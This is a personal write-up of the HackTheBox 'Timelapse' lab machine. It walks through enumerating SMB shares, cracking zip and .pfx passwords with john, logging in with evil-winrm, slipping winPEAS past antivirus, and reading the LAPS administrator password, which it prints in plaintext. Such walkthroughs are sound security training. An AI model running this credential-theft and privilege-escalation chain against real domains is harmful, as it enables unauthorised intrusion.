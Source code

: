 ```yaml
---

title: Box - Timelapse
published: true
---
```


HackTheBox CTF Box - Remote access comes in different flavors.


![](/assets/timelapse01.jpg)

* * *

## Nmaps

```shell
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-07-08 06:01:53Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
5986/tcp  open  ssl/http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2022-07-08T06:04:57+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Issuer: commonName=dc01.timelapse.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-10-25T14:05:29
| Not valid after:  2022-10-25T14:25:29
| MD5:   e233 a199 4504 0859 013f b9c5 e4f6 91c3
| SHA-1: 5861 acf7 76b8 703f d01e e25d fc7c 9952 a447 7652
| -----BEGIN CERTIFICATE-----
| MIIDCjCCAfKgAwIBAgIQLRY/feXALoZCPZtUeyiC4DANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwHhcNMjExMDI1MTQwNTI5WhcN
| MjIxMDI1MTQyNTI5WjAdMRswGQYDVQQDDBJkYzAxLnRpbWVsYXBzZS5odGIwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDJdoIQMYt47skzf17SI7M8jubO
| rD6sHg8yZw0YXKumOd5zofcSBPHfC1d/jtcHjGSsc5dQQ66qnlwdlOvifNW/KcaX
| LqNmzjhwL49UGUw0MAMPAyi1hcYP6LG0dkU84zNuoNMprMpzya3+aU1u7YpQ6Dui
| AzNKPa+6zJzPSMkg/TlUuSN4LjnSgIV6xKBc1qhVYDEyTUsHZUgkIYtN0+zvwpU5
| isiwyp9M4RYZbxe0xecW39hfTvec++94VYkH4uO+ITtpmZ5OVvWOCpqagznTSXTg
| FFuSYQTSjqYDwxPXHTK+/GAlq3uUWQYGdNeVMEZt+8EIEmyL4i4ToPkqjPF1AgMB
| AAGjRjBEMA4GA1UdDwEB/wQEAwIFoDATBgNVHSUEDDAKBggrBgEFBQcDATAdBgNV
| HQ4EFgQUZ6PTTN1pEmDFD6YXfQ1tfTnXde0wDQYJKoZIhvcNAQELBQADggEBAL2Y
| /57FBUBLqUKZKp+P0vtbUAD0+J7bg4m/1tAHcN6Cf89KwRSkRLdq++RWaQk9CKIU
| 4g3M3stTWCnMf1CgXax+WeuTpzGmITLeVA6L8I2FaIgNdFVQGIG1nAn1UpYueR/H
| NTIVjMPA93XR1JLsW601WV6eUI/q7t6e52sAADECjsnG1p37NjNbmTwHabrUVjBK
| 6Luol+v2QtqP6nY4DRH+XSk6xDaxjfwd5qN7DvSpdoz09+2ffrFuQkxxs6Pp8bQE
| 5GJ+aSfE+xua2vpYyyGxO0Or1J2YA1CXMijise2tp+m9JBQ1wJ2suUS2wGv1Tvyh
| lrrndm32+d0YeP/wb8E=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
56949/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=7/7%OT=53%CT=%CU=%PV=Y%G=N%TM=62C75889%P=x86_64-pc-linux-gnu)
SEQ(SP=FE%GCD=1%ISR=10E%TI=I%II=I%SS=S%TS=U)
OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS%O6=M539NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-07-08T06:04:17
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 24458/tcp): CLEAN (Timeout)
|   Check 2 (port 32357/tcp): CLEAN (Timeout)
|   Check 3 (port 13478/udp): CLEAN (Timeout)
|   Check 4 (port 22941/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

* * * 

## Enumerate SMB

- List shares ``smbclient -L 10.10.11.152``
- We find a backup file and some other files lets wget everything
- The winrm_backup.zip is password protected, lets feed to john.

1. ``zip2john winrm_backup.zip > winrm_backuphash``
2. ``john winrm_backuphash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
3. supremelegacy lets open the zip

- We're left with ``legacyy_dev_auth.pfx`` which is some sort of security cert.

Being a noob, and trying to figure out what a .pfx file even is I came accross this site: [https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file). So gong to follow these steps and see where that takes me.

1. ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key``

- Okay so we're promt for a password...
- After doing some searching looks like we can use john for this.

1. ``pfx2john legacyy_dev_auth.pfx > legacyy_hash``
2. ``john legacyy_hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --rule /usr/share/john/rules/rockyou-30000.rule``
3. We now have the password to access the key.
4. Extract the private key ``openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy.key -nodes`` we need to add -noDES to the end to avoid encryption
5. Extract the certificate ``openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy.cert``
6. Decrypt the private key ``openssl rsa -in legacyy.key -out legacyy-decrypt.key``

- Remove the header from the .key
- Now we should be able to use evil-winrm to access the system.

* * * 

## Evil-WinRM & Root

- ``evil-winrm -S -k legacyy.key -c legacyy.cert -i 10.10.11.152``

Now that we're connected we can continue with enumeration.

- ``whoami /user``
- ``whoami /priv``
- Upload winpeas ``upload winPEASx64.exe``
- We cant run this it thinks its a virus, but maybe it will run in spool dir

1. ``cd "C:\Windows\System32\spool\drivers\color"``
2. ``upload winPEASx64.exe``

- Not much but there is Console History

![](/assets/timelapse02.png)

- Because svc_deploy is being used here - We can reuse these credentials to pass commands via PS-Remoting using this formula ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}``

```shell
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/8/2022 5:26:09 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

- So we can use ``svc_deploy`` to extract the ``Local Administrator`` password because they are a member of the ``LAPS_Readers`` group.

- Check for LAPS Password using AD-Module ``invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}``

```shell
PSComputerName              : localhost
RunspaceId                  : ffe8479d-c003-4175-a215-7adbabdd5090
DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                 : dc01.timelapse.htb
Enabled                     : True
ms-Mcs-AdmPwd               : d)#YQuU5gTQi%e6Eb(k5-VQH
ms-Mcs-AdmPwdExpirationTime : 133021880961083881
Name                        : DC01
ObjectClass                 : computer
ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName              : DC01$
SID                         : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName           :
```

- We can now use ``evil-winrm`` to PS-Remote with this credential.
- ``evil-winrm -S -u 'Administrator' -p 'd)#YQuU5gTQi%e6Eb(k5-VQH' -i 10.10.11.152``
- root.txt is on the admin's desktop

* * *

